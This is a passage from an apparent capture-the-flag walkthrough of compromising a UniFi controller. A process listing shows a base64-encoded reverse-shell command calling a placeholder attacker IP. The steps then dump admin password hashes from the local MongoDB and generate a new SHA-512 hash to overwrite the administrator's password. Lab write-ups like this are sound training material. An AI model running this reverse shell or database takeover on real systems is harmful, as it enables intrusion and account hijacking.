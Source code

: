             ```text
                USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
                unifi          1  0.0  0.0   1080     4 ?        Ss   17:54   0:00 /sbin/docker-init -- /usr/local/bin/docker-entrypoint.sh unifi
                unifi          7  0.0  0.1  18512  3160 ?        S    17:54   0:00 bash /usr/local/bin/docker-entrypoint.sh unifi
                unifi         17  0.9 27.4 3678004 558668 ?      Sl   17:54   0:58  \_ java -Dunifi.datadir=/unifi/data -Dunifi.logdir=/unifi/log -Dunifi.rundir=/var/run/unifi -Xmx1024M -Djava.awt.headless=true -Dfile.encoding=UTF-8 -jar /usr/lib/unifi/lib/ace.jar start
                unifi         67  0.3  4.1 1101696 84872 ?       Sl   17:55   0:20      \_ bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
                unifi       2580  0.0  0.1  18380  3104 ?        S    19:25   0:00      \_ bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvTVlfSVBfQUREUi80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}
                unifi       2584  0.0  0.1  18512  3380 ?        S    19:25   0:00          \_ bash -i
                unifi       2587  0.0  0.1  18380  3080 ?        S    19:25   0:00              \_ bash
                unifi       2601  0.0  0.1  19312  2332 ?        S    19:25   0:00                  \_ script /dev/null -c bash
                unifi       2602  0.0  0.0   4632   920 pts/0    Ss   19:25   0:00                      \_ sh -c bash
                unifi       2603  0.0  0.1  18512  3516 pts/0    S    19:25   0:00                          \_ bash
                unifi       2862  0.0  0.1  34408  2952 pts/0    R+   19:35   0:00                              \_ ps auxfww
            ```

            1. In here we can see MONGODB and the command has it running on --port 27117
            2. Lets connect to the mongodb
   3. MONGODB
      1. > mongo --port 27117
      2. > show dbs
         1. ace
         2. ace_stat
         3. admin
         4. config
         5. local
      3. > use ace
      4. > show collections
         1. In here we see several but the main one that stands out is "admin"
      5. > db.admin.find()
         1. We see a ton of data but the main things are the users and thier password hashes we see
            1. administrator:$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.
            2. michael:$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0
            3. seamus:$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC.
            4. warren:$6$DDOzp/8g$VXE2i.FgQSRJvTu.8G4jtxhJ8gm22FuCoQbAhhyLFCMcwX95ybr4dCJR/Otas100PZA9fHWgTpWYzth5KcaCZ.
            5. james:$6$ON/tM.23$cp3j11TkOCDVdy/DzOtpEbRC5mqbi1PPUM6N4ao3Bog8rO.ZGqn6Xysm3v0bKtyclltYmYvbXLhNybGyjvAey1
   4. HASHES
      1. Lets try and identify these hashes
         1. The "$6$" makes it look like sha512crypt, SHA512 (Unix)
      2. So it looke like we cannot crack the hashes BUT we can run the db.update() function and set our own password
7. EXPLOIT
   1. We need to craft a SHA512 password for our admin user account in mongoDB
   2. Doing some googling and we see there is a command "mkapsswd" that will generate a hash for us
   3. HASH
      1. > mkpasswd -m sha-512 helloworld
         1. HASH: "$6$pqrVNIxxme1DguoI$LFSd6kIdj1tM8q.0BCu1y9xvOeS.uHcf04oCJbxrgA0RToUSOfZtvKAJ9U..ukRwTWABaERrFPIgZdEZj/T0O."
   4. Now update the database